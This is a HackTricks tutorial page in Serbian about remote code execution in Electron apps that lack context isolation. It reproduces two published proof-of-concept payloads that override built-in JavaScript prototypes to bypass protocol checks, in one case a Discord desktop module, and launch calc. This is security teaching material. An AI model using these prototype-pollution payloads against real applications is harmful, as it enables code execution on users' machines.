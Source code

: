 # Electron contextIsolation RCE via preload code

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Primer 1

Primer sa [https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en?slide=30](https://speakerdeck.com/masatokinugawa/electron-abusing-the-lack-of-context-isolation-curecon-en?slide=30)

Ovaj kod otvara http(s) linkove sa podrazumevanim pretraživačem:

![](<../../../.gitbook/assets/image (375) (1) (1).png>)

Nešto poput `file:///C:/Windows/systemd32/calc.exe` može se koristiti za izvršavanje kalkulatora, ali `SAFE_PROTOCOLS.indexOf` to sprečava.

Stoga, napadač može ubaciti ovaj JS kod putem XSS ili proizvoljne navigacije stranica:

```html
<script>
Array.prototype.indexOf = function(){
return 1337;
}
</script>
```

Kako će poziv `SAFE_PROTOCOLS.indexOf` uvijek vratiti 1337, napadač može zaobići zaštitu i izvršiti kalkulator. Konačni exploit:

```html
<script>
Array.prototype.indexOf = function(){
return 1337;
}
</script>
<a href="file:///C:/Windows/systemd32/calc.exe">CLICK</a>
```

Proverite originalne slajdove za druge načine izvršavanja programa bez traženja dozvola.

Izgleda da je još jedan način učitavanja i izvršavanja koda pristupanje nečemu poput `file://127.0.0.1/electron/rce.jar`

## Primer 2: RCE Discord aplikacija

Primer sa [https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1](https://mksben.l0.cm/2020/10/discord-desktop-rce.html?m=1)

Pregledajući skripte za učitavanje, otkrio sam da Discord izlaže funkciju koja omogućava pozivanje određenih dozvoljenih modula putem `DiscordNative.nativeModules.requireModule('IME-MODULA')` na veb stranici.\
Ovde nisam mogao koristiti module koji se mogu direktno koristiti za RCE, kao što je modul _child\_process_, ali **pronašao sam kod gde se RCE može postići preusmeravanjem ugrađenih JavaScript metoda** i ometanjem izvršavanja izloženog modula.

Sledeći je PoC. Potvrdio sam da se aplikacija **calc** **pojavljuje** kada pozovem funkciju `getGPUDriverVersions` koja je definisana u modulu "_discord\_utils_" iz devTools-a, dok **preusmeravam `RegExp.prototype.test` i `Array.prototype.join`**.

```javascript
RegExp.prototype.test=function(){
return false;
}
Array.prototype.join=function(){
return "calc";
}
DiscordNative.nativeModules.requireModule('discord_utils').getGPUDriverVersions();
```

`getGPUDriverVersions` funkcija pokušava da izvrši program koristeći "_execa_" biblioteku, kao što je prikazano u sledećem primeru:

```javascript
module.exports.getGPUDriverVersions = async () => {
if (process.platform !== 'win32') {
return {};
}

const result = {};
const nvidiaSmiPath = `${process.env['ProgramW6432']}/NVIDIA Corporation/NVSMI/nvidia-smi.exe`;

try {
result.nvidia = parseNvidiaSmiOutput(await execa(nvidiaSmiPath, []));
} catch (e) {
result.nvidia = {error: e.toString()};
}

return result;
};
```

Obično _execa_ pokušava da izvrši "_nvidia-smi.exe_", koji je naveden u promenljivoj `nvidiaSmiPath`, međutim, zbog predefinisanog `RegExp.prototype.test` i `Array.prototype.join`, **argument je zamenjen sa "**_**calc**_**" u internom procesiranju \_execa**\_\*\*.

Konkretno, argument je zamenjen promenom sledećih dveju delova.

[https://github.com/moxystudio/node-cross-spawn/blob/16feb534e818668594fd530b113a028c0c06bddc/lib/parse.js#L36](https://github.com/moxystudio/node-cross-spawn/blob/16feb534e818668594fd530b113a028c0c06bddc/lib/parse.js#L36)

[https://github.com/moxystudio/node-cross-spawn/blob/16feb534e818668594fd530b113a028c0c06bddc/lib/parse.js#L55](https://github.com/moxystudio/node-cross-spawn/blob/16feb534e818668594fd530b113a028c0c06bddc/lib/parse.js#L55)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
